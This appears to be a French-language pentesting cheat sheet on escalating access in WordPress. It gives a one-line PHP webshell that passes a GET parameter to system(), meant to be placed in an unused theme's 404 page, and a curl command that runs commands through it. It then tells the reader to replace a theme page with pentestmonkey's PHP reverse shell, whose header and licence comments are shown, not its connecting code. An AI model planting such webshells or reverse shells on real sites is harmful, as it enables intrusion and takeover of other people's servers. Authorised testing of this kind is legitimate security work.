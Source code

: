 ## Escalade de privilèges
### webshell
Choisir un thème non utilisé et une page non importante comme 404.
```php
<?php

system($_GET['cmd']);
```
```shell
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```
### Reverse Shell
https://systemweakness.com/how-to-get-a-reverse-shell-from-any-wordpress-d12e2f7a3033
Remplacer la page .php d'un des thèmes par:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~